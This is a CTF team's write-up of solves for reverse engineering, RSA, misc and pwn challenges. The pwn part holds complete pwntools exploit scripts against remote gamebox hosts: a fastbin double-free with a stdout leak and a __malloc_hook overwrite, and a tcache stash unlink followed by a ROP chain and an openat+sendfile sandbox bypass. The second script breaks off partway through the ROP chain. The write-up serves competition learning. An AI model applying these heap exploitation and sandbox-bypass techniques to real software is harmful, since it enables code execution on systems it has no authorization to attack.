







# KKnideflag战队 WriteUp

## 排名
KKnideflag：第2名



## 解题思路
### REVERSE
#### ezPotato
两个框分别输入“1wesa234”和“qwe123998244353”，动态调试发现是和第一个字符串异或

~~~python
cmp = [0x0000007D, 0x0000002D, 0x00000036, 0x00000037, 0x00000032, 0x00000049, 0x00000073, 0x0000006B, 0x00000047, 0x00000044, 0x00000017, 0x0000000A, 0x0000003E, 0x00000044, 0x00000056, 0x00000046, 0x00000048, 0x00000028, 0x00000024, 0x00000011, 0x00000052, 0x00000046, 0x00000041, 0x00000074, 0x00000052, 0x00000003, 0x0000003A, 0x00000023, 0x00000051, 0x00000046, 0x00000073, 0x00000040, 0x0000005E, 0x00000028, 0x00000022, 0x00000006, 0x00000018, 0x0000004F]
s = "1wesa234"
flag = ""
for i in range(len(cmp)):
    flag += chr(cmp[i]^ord(s[i%len(s)]))
print(flag)
~~~

#### HelloHarmony

先找到libentry.so反编译，逆向代码如下

~~~python
out = [0xF6, 0xB0, 0xA6, 0x36, 0x9A, 0xB3, 0x2B, 0xBF, 0x94, 0x54, 0x15, 0x97, 0x93, 0x59, 0xBF, 0x50, 0x4D, 0xBF, 0x0A, 0x59, 0x06, 0xD7, 0x97, 0x50, 0xD6, 0x59, 0x54, 0xD7, 0xCF, 0x06, 0x5D, 0x20, 0x1D, 0x5A, 0x22, 0xEE, 0x99, 0x1F, 0xE1, 0x18]
print(len(out))
key = 'HelloSDS'
s = []
for i in range(256):
    s.append((i*167+173)%256)
print(s)
key_list = []
for i in range(8):
    key_list.append(ord(key[(i+3)%len(key)]) | (ord(key[(i+2)%len(key)])<<8) | (ord(key[(i+1)%len(key)])<<16) | (ord(key[(i)%len(key)])<<24))
print(key_list, len(key_list))
for i in range(7, -1, -1):
    tmp = out[39]
    for j in range(38, -1, -1):
        out[j+1] = out[j]
    out[0] = tmp
    for j in range(40):
        out[j] = s.index(out[j])
    out[0] ^= (key_list[i]&0xff)
    out[1] ^= ((key_list[i]>>8)&0xff)
    out[2] ^= ((key_list[i]>>16)&0xff)
    out[3] ^= ((key_list[i]>>24)&0xff)
    out[4] ^= (key_list[i]&0xff)
    out[5] ^= ((key_list[i]>>8)&0xff)
    out[6] ^= ((key_list[i]>>16)&0xff)
    out[7] ^= ((key_list[i]>>24)&0xff)
print("".join(map(chr, out)))	# QEXIX{f0b_4y3_4_t4573y_0m_jyfw706y4wof}
~~~

发现很像flag格式且是移位加密，flag内外不一样，cyberchef一个个试即可

#### loser

很明显是个tea加密，难点是找到换表，我是一个个试出来的

~~~python
import struct
from ctypes import c_uint32

s = [0x000000A5, 0x00000064, 0x0000009F, 0x00000004, 0x00000039, 0x000000B7, 0x000000A6, 0x00000017, 0x00000022, 0x000000CD, 0x00000026, 0x0000004D, 0x0000007D, 0x00000010, 0x00000082, 0x000000DB, 0x00000085, 0x000000DB, 0x00000027, 0x00000039, 0x00000042, 0x0000003C, 0x0000001E, 0x000000A5, 0x00000022, 0x000000CD, 0x00000026, 0x0000004D, 0x0000007D, 0x00000010, 0x00000082, 0x000000DB, 0x000000D6, 0x00000037, 0x00000068, 0x00000080, 0x000000B1, 0x000000F9, 0x00000015, 0x00000019, 0x00000044, 0x00000018, 0x00000042, 0x00000024, 0x0000008F, 0x00000078, 0x000000A2, 0x0000002C]
v = []
for i in range(0, len(s), 4):
    # v.append(s[i]+(s[i+1]<<8)+(s[i+2]<<16)+(s[i+3]<<24))
    v.append(s[i+3]+(s[i+2]<<8)+(s[i+1]<<16)+(s[i]<<24))
print(list(map(hex, v)))

def tea_encrypt(r, v, key, delta):
    v0, v1 = c_uint32(v[0]), c_uint32(v[1])
    total = c_uint32(0xC6EF3720)
    for i in range(r):
        v1.value -= ((v0.value << 4) + key[2]) ^ (v0.value + total.value) ^ ((v0.value >> 5) + key[3])
        v0.value -= ((v1.value << 4) + key[0]) ^ (v1.value + total.value) ^ ((v1.value >> 5) + key[1])
        total.value += delta
    return v0.value, v1.value

def tea_decrypt(r, v, key, delta):
    v0, v1 = c_uint32(v[0]), c_uint32(v[1])
    total = c_uint32(0xC6EF3720+delta * r)
    for i in range(r):
        total.value -= delta
        v0.value += ((v1.value << 4) + key[0]) ^ (v1.value + total.value) ^ ((v1.value >> 5) + key[1])
        v1.value += ((v0.value << 4) + key[2]) ^ (v0.value + total.value) ^ ((v0.value >> 5) + key[3])
    return v0.value, v1.value

k = [0x0000004C, 0x0000005A, 0x00000053, 0x00000044]
for i in range(len(v)):
    v[i] ^= 0x53
delta = 0x61C88647
for i in range(0, len(v), 2):
    v[i:i+2] = tea_decrypt(32, v[i:i+2], k, delta)
print(list(map(hex, v)))
str_list = []
for i in range(len(v)):
    str_list.append(struct.pack('<I', v[i]).decode())
print('decrypted: %s' % ''.join(str_list))
out = ''.join([i[0]+i[2]+i[1] for i in str_list])
print(out)
table = "hijklmnopqrstuvwxyz0123456BCDEFGHIJKLMNOPQRSTUVWXYZawxyz01234579fh"
tabl1 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_!'
flag = ""
for i in range(len(out)):
    try:
        flag += tabl1[table.index(out[i])]
    except:
        flag += " "
print(flag)
# LZSDS{how_how_how_how_how_ow_ow_owa}
~~~

把最后a换成感叹号即可，卡了我半天才发现是感叹号和h也对应

#### Map_Maze

先是动态调试导出地图值，然后BFS求路径

~~~python
maze = [0, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 1, 1, 1, 1, 1, 1, 1, 1, 0, 1, 1, 1, 1, 1, 0, 1, 1, 1, 1, 1, 1, 1, 1, 0, 1, 1, 1, 1, 1, 0, 0, 0, 0, 1, 1, 1, 1, 1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 1, 1, 1, 1, 1, 1, 0, 1, 1, 1, 0, 0, 0, 0, 0, 1, 1, 1, 1, 1, 1, 0, 1, 1, 1, 0, 1, 1, 1, 0, 1, 1, 1, 1,
1, 0, 0, 1, 1, 1, 0, 1, 1, 1, 0, 1, 1, 1, 1, 1, 1, 0, 0, 0, 0, 0, 1, 1, 1, 0, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 0, 1, 1, 1, 0, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 0, 0, 0, 0, 0, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 0, 0, 0, 0, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 0, 1, 1, 0, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 0, 1, 1, 0, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 0, 0]
for i in range(224):
    if i % 15 == 0:
        print()
    print(maze[i], end=", ")
print()

# https://blog.csdn.net/qq_62074533/article/details/134780682
maze = [
    0, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 1, 1, 1, 1, 1, 1,
    1, 1, 0, 1, 1, 1, 1, 1, 0, 1, 1, 1, 1, 1, 1,
    1, 1, 0, 1, 1, 1, 1, 1, 0, 0, 0, 0, 1, 1, 1,
    1, 1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 1, 1, 1, 1,
    1, 1, 0, 1, 1, 1, 0, 0, 0, 0, 0, 1, 1, 1, 1,
    1, 1, 0, 1, 1, 1, 0, 1, 1, 1, 0, 1, 1, 1, 1,
    1, 0, 0, 1, 1, 1, 0, 1, 1, 1, 0, 1, 1, 1, 1,
    1, 1, 0, 0, 0, 0, 0, 1, 1, 1, 0, 1, 1, 1, 1,
    1, 1, 1, 1, 1, 1, 0, 1, 1, 1, 0, 1, 1, 1, 1,
    1, 1, 1, 1, 1, 1, 0, 0, 0, 0, 0, 1, 1, 1, 1,
    1, 1, 1, 1, 1, 1, 1, 1, 1, 0, 0, 0, 0, 1, 1,
    1, 1, 1, 1, 1, 1, 1, 1, 1, 0, 1, 1, 0, 1, 1,
    1, 1, 1, 1, 1, 1, 1, 1, 1, 0, 1, 1, 0, 1, 1,
    1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 0, 0, 2
]
width = 15
height = 15
print(width, height)
visited = [0] * (width * height)  # 记录访问过的点


def BFS(maze, x, y):
    queue = [(x, y, '')]  # 设置队列，bfs用队列，dfs用栈
    while queue:
        x, y, path = queue.pop(0)
        if x < height and y < width and x >= 0 and y >= 0 and visited[x * width + y] != 1 and maze[x * width + y] != 1:
            visited[x * width + y] = 1  # 证明已经访问过了
            queue.append((x + 1, y, path + 'D'))  # 只能字符串相加
            queue.append((x, y - 1, path + 'L'))
            queue.append((x, y + 1, path + 'R'))
            queue.append((x - 1, y, path + 'U'))
        else:
            continue
        if maze[x * width + y] == 2:
            return path


flag = BFS(maze, 0, 0)
print(flag, len(flag))

~~~

最后md5即可

#### super panda girl

unity游戏直接找csharp.dll，把关键函数找出来

~~~c#
private string GetEvenCharacters(string input)
{
    StringBuilder stringBuilder = new StringBuilder();
    for (int i = 0; i < input.Length; i += 2)
    {
        stringBuilder.Append(input[i]);
    }
    return stringBuilder.ToString();
}
private string code(string text)
{
    return Convert.ToBase64String(Encoding.UTF8.GetBytes(text));
}
public void VerifyPassword()
{
    string text = this.inputField.text;
    if (!this.pandaKey.ssSSs5s5s5(text))
    {
        this.ShowIncorrectPasswordUI();
        return;
    }
    string str = this.code(this.GetEvenCharacters(text));
    this.ShowCorrectPasswordUI("LZSDS{" + str + "}");
}

using System;
using System.Text;
using UnityEngine;

// Token: 0x02000004 RID: 4
public class s5Ss55s5s5s5sSs5 : MonoBehaviour
{
	// Token: 0x06000009 RID: 9 RVA: 0x0000214C File Offset: 0x0000034C
	public bool ssSSs5s5s5(string SSS55sSS)
	{
		byte[] s555s5s = this.ssS5sss5s(SSS55sSS, "LZSDS");
		return this.CompareArrays(s555s5s, this.sssss55s);
	}

	// Token: 0x0600000A RID: 10 RVA: 0x00002174 File Offset: 0x00000374
	private byte[] ssS5sss5s(string sSs5s5s5, string S5SSS5s5)
	{
		int length = S5SSS5s5.Length;
		int length2 = sSs5s5s5.Length;
		byte[] bytes = Encoding.UTF8.GetBytes(sSs5s5s5);
		byte[] array = new byte[256];
		byte[] array2 = new byte[length2];
		for (int i = 0; i < 256; i++)
		{
			array[i] = (byte)i;
		}
		int num = 0;
		for (int j = 0; j < 256; j++)
		{
			num = (num + (int)array[j] + (int)S5SSS5s5[j % length]) % 256;
			byte b = array[j];
			array[j] = array[num];
			array[num] = b;
		}
		int num2 = 0;
		int num3 = 0;
		for (int k = 0; k < length2; k++)
		{
			num2 = (num2 + 1) % 256;
			num3 = (num3 + (int)array[num2]) % 256;
			byte b2 = array[num2];
			array[num2] = array[num3];
			array[num3] = b2;
			byte b3 = (byte)((int)(array[num2] + array[num3]) % 256);
			array2[k] = (bytes[k] ^ b3);
		}
		return array2;
	}

	// Token: 0x0600000B RID: 11 RVA: 0x00002274 File Offset: 0x00000474
	private bool CompareArrays(byte[] s555s5s, byte[] s5sSss5s)
	{
		if (s555s5s.Length != s5sSss5s.Length)
		{
			return false;
		}
		for (int i = 0; i < s555s5s.Length; i++)
		{
			if (s555s5s[i] != s5sSss5s[i])
			{
				return false;
			}
		}
		return true;
	}

	// Token: 0x04000007 RID: 7
	private const string S5SSS5s5 = "LZSDS";

	// Token: 0x04000008 RID: 8
	private readonly byte[] sssss55s = new byte[]
	{
		57,
		244,
		117,
		200,
		213,
		87,
		194,
		195,
		164,
		100,
		103,
		63,
		19,
		79,
		137,
		70,
		201,
		24,
		163,
		129,
		237,
		210,
		5,
		19,
		35,
		21
	};
}

~~~

可以发现是个魔改rc4

~~~python
text = [57,
		244,
		117,
		200,
		213,
		87,
		194,
		195,
		164,
		100,
		103,
		63,
		19,
		79,
		137,
		70,
		201,
		24,
		163,
		129,
		237,
		210,
		5,
		19,
		35,
		21]
key = b"LZSDS"

def KSA(key):
    """ Key-Scheduling Algorithm (KSA) 密钥调度算法"""
    S = list(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]
    return S


def PRGA(S):
    """ Pseudo-Random Generation Algorithm (PRGA) 伪随机数生成算法"""
    i, j = 0, 0
    while True:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        K = (S[i] + S[j]) % 256
        yield K


def RC4(key, text):
    """ RC4 encryption/decryption """
    S = KSA(key)
    keystream = PRGA(S)
    res = []
    for char in text:
        res.append(char ^ next(keystream))
    return bytes(res)


out = RC4(key, text).decode()
flag = ""
for i in range(0, len(out), 2):
	flag += out[i]
from base64 import b64encode
print("LZSDS{"+b64encode(flag.encode()).decode()+"}")
~~~

### CRYPTO

#### xorsa

p、q直接给

~~~python
from Crypto.Util.number import long_to_bytes
from gmpy2 import invert, gcd, iroot

c = 13760578729891127041098229431259961120216468948795732373975536417751222443069805775693845560005881981622202089883866395577154701229046245882282127054969114210307175116574178428823043817041956207503299220721042136515863979655578210499512044917781566303947681251248645504273995402630701480590505840473412765662
n = 14247038211821385209759067256846232227444163173099199085257790370590450749665206556163364754269182255358084948354345827898987234756662133974633117062902370811855466665351784027125333112663075085395676501121759786699720149098576433141817737564928779420725539793335830274229206316999461309927000523188222801659
hint1 = 8938538619961731399716016665470564084986243880394928918482374295814509353382364651201249532111268951793354572124324033902502588541297713297622432670722730
hint2 = 1493298155243474837320092849325750387759519643879388609208314494000605554020636706320849032906759121914762492378489852575583260177546578935320977613050647
q = hint2
p = n // q
phi = (p-1)*(q-1)
e=2026
gongyue = gcd(phi, e)
d = invert(e // gongyue, phi)
m = pow(c, d, n)
m = iroot(m, gongyue)[0]
print(long_to_bytes(m))
~~~

### MISC by Oceanfish

#### 神奇的硬币纺纱机

1.通过nc访问游戏
2.判断为硬币达到一定数量即可获得flag
3.每次只选择不投币，多次选择后获得2107枚硬币，得到flag



#### Elemental Wars

1.通过nc访问游戏
2.选择相克属性会失去生命，选择相生属性会恢复生命
3.选择暴力破解，随机选择，多次选择后赢得游戏胜利得到flag



### pwn by 0xahh

#### no_leak_heap

gift给出了堆的尾地址，也就是得到了堆地址，2.23的题目，没有tcache，没有show，没有edit，但还是打IO_leak就可以了，不过要麻烦一点，先到unsortedbin中，然后通过申请fastbin大小的来劫持残留的main_arena地址，这个地址是`_IO_2_1_stdout_`的fakechunk，劫持成功后使用一次fastbin的double free，add一个，就是刚刚用来劫持的chunk，这样就把fakechunk加入fastbin中了，申请几次，把他申请出来，就可以打`_IO_2_1_stdout_`了，就得到了libc，得到libc以后就简单了，malloc_hook打后门就好了

```python
from pwn import *
from LibcSearcher import *
from ae64 import AE64
from ctypes import cdll

filename = './pwn'
context.arch='amd64'
context.log_level = 'debug'
context.terminal = ['tmux', 'neww']
local = 1
all_logs = []
elf = ELF(filename)
libc = elf.libc

if local:
    sh = process(filename)
else:
    sh = remote('node5.buuoj.cn', )

def debug(parma=''):
    for an_log in all_logs:
        success(an_log)
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid,parma)
    pause()

choice_words = '>>> '

menu_add = 1
add_index_words = 'idx???'
add_size_words = 'size???'
add_content_words = 'content???'

menu_del = 2
del_index_words = 'idx???'


def add(index=-1, size=-1, content=''):
    sh.sendlineafter(choice_words, str(menu_add))
    if add_index_words:
        sh.sendlineafter(add_index_words, str(index))
    if add_size_words:
        sh.sendlineafter(add_size_words, str(size))
    if add_content_words:
        sh.sendafter(add_content_words, content)

def delete(index=-1):
    sh.sendlineafter(choice_words, str(menu_del))
    if del_index_words:
        sh.sendlineafter(del_index_words, str(index))

def leak_info(name, addr):
    output_log = '{} => {}'.format(name, hex(addr))
    all_logs.append(output_log)
    success(output_log)

def pwn():
    sh.recvuntil(b'gift:')
    gift=int(sh.recvuntil(b'\n',drop=True),16)
    print(hex(gift))
    heap=gift-0x21000
    add(index=0,size=0x4f0,content=b's')
    add(index=1,size=0x68,content=b'a')
    add(index=2,size=0x68,content=b'a')
    add(index=3,size=0x68,content=b'a')
    add(index=4,size=0x68,content=b'a')

    delete(index=0)
    add(index=5,size=0x68,content=b'\xdd\x25')

    delete(index=2)
    delete(index=3)
    delete(index=2)

    add(index=6,size=0x68,content=p64(heap+0x20))
    add(index=1,size=0x68,content=b'a')
    add(index=1,size=0x68,content=b'a')
    add(index=1,size=0x68,content=b'a')
    #  0x7ffff7dd25dd
    add(index=7,size=0x68,content=b'a'*0x33+p64(0xfbad1887)+p64(0)*3+b'\x00')
    libc.address=u64(sh.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) -0x3c5600
    leak_info('libc.address',libc.address)
    if libc.address&0xfff!=0:
        exit(0)
    malloc_hook=libc.sym['__malloc_hook']

    add(index=7,size=0x68,content=b'a')
    add(index=8,size=0x68,content=b'a')
    add(index=9,size=0x68,content=b'a')
    delete(index=7)
    delete(index=8)
    delete(index=7)
    leak_info('malloc_hook',malloc_hook)
    fake_chunk=libc.address+0x3c4aed
    add(index=10,size=0x68,content=p64(fake_chunk))
    add(index=7,size=0x68,content=b'a')
    add(index=7,size=0x68,content=b'a')
    backdoor=0x400AA6
    add(index=7,size=0x68,content=b'a'*0x13+p64(backdoor))
    sh.sendlineafter(choice_words, str(menu_add))
    sh.sendlineafter(add_index_words, str(1))
    sh.sendlineafter(add_size_words, str(1))
    sh.interactive()

while True:
    try:
        # sh = process(filename)
        sh=remote('gamebox.yunyansec.com',11863)
        pwn()
    except:
        sh.close()

```

#### small stmashing

首先有一个沙箱，禁用了open和execve



add用的calloc



题目又说了smallbin，unlink这些提示，那很明显就是一道打tcache stash unlink的题目了，且有一个后门函数，可以栈溢出，但需要控制变量nbytes，所以完美符合tcache stash unlink的要求，利用tcache stash unlink给nbytes处写一个大值，就可以打栈溢出来rop了

先进unsortedbin泄露libc，然后分两次，把大小为0x100的chunk打到smallbin，再在tcache中准备好6个0x100的chunk，修改第二个smallbin的bk，指向&nbytes-0x10，再calloc一次一样的大小的，就打成功了，后面我用的事使用mprotec的rop来修改bss的权限，再在bss上写shellcode，用openat+sendfile实现沙箱的绕过

给出exp：

```python
from pwn import *
from LibcSearcher import *
from ae64 import AE64
from ctypes import cdll

filename = './pwn'
context.arch='amd64'
context.log_level = 'debug'
context.terminal = ['tmux', 'neww']
local = 0
all_logs = []
elf = ELF(filename)
libc = elf.libc

if local:
    sh = process(filename)
else:
    sh = remote('gamebox.yunyansec.com',61492 )

def debug(parma=''):
    for an_log in all_logs:
        success(an_log)
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid,parma)
    pause()

choice_words = 'choice:'

menu_add = 1
add_index_words = ''
add_size_words = 'size:'
add_content_words = ''

menu_del = 2
del_index_words = 'Idx:'

menu_show = 4
show_index_words = 'Idx:'

menu_edit = 3
edit_index_words = 'Idx:'
edit_size_words = ''
edit_content_words = 'Content:'

def add(index=-1, size=-1, content=''):
    sh.sendlineafter(choice_words, str(menu_add))
    if add_index_words:
        sh.sendlineafter(add_index_words, str(index))
    if add_size_words:
        sh.sendlineafter(add_size_words, str(size))
    if add_content_words:
        sh.sendafter(add_content_words, content)
    sh.recvuntil('Add Ptr: ',drop=True)
    ptr=int(sh.recvuntil(b'\n',drop=True),16)
    print(hex(ptr))
    return ptr

def delete(index=-1):
    sh.sendlineafter(choice_words, str(menu_del))
    if del_index_words:
        sh.sendlineafter(del_index_words, str(index))

def show(index=-1):
    sh.sendlineafter(choice_words, str(menu_show))
    if show_index_words:
        sh.sendlineafter(show_index_words, str(index))

def edit(index=-1, size=-1, content=''):
    sh.sendlineafter(choice_words, str(menu_edit))
    if edit_index_words:
        sh.sendlineafter(edit_index_words, str(index))
    if edit_size_words:
        sh.sendlineafter(edit_size_words, str(size))
    if edit_content_words:
        sh.sendafter(edit_content_words, content)

def leak_info(name, addr):
    output_log = '{} => {}'.format(name, hex(addr))
    all_logs.append(output_log)
    success(output_log)

nbytes=0x4040C0
heap=add(size=0x260)-0x1480
add(size=0x270)
add(size=0x280)
for i in range(8):
    add(size=0xf0)
for i in range(3,9):
    delete(index=i)
delete(index=0)
for i in range (6):
    edit(index=0,content=p64(0)*2)
    delete(index=0)
edit(index=0,content=p64(heap+0x1480)+p64(0))
delete(index=0)

show(index=0)
libc.address=u64(sh.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-0x1ecbe0
leak_info('libc.address',libc.address)

add(size=0x160)
add(size=0x300)

delete(index=2)
for i in range (6):
    edit(index=2,content=p64(0)*2)
    delete(index=2)
edit(index=2,content=p64(heap+0x1970)+p64(0))
delete(index=2)
add(size=0x180)
add(size=0x300)

# edit(index=0,content=b'a'*0x160+p64(0)+p64(0x101)+p64(libc.address+0x1eccd0)+p64(nbytes-0x10))

edit(index=2,content=b'a'*0x180+p64(0)+p64(0x101)+p64(heap+0x15e0)+p64(nbytes-0x10))

add(size=0xf0)
bss_start=0x404000
bss=0x404500
pop_rdi_ret=0x23b6a+libc.address
pop_rsi_ret=0x2601f+libc.address
pop_rdx_r12_ret=0x119431+libc.address
pop_rax_ret=0x036174+libc.address
syscall_ret=0x630a9+libc.address

rop_c=p64(pop_rdi_ret)+p64(0)+p64(pop_rsi_ret)+p64(bss)+p64(pop_rdx_r12_ret)+p64(0x200)+p64(0)+p64(pop_rax_ret)+p64(0)+p64(syscall_ret)
rop_c+=p64(pop_rdi_ret)+p64(bss_start)
rop_c+=p64(pop_rsi_ret)+p64(0x1000)
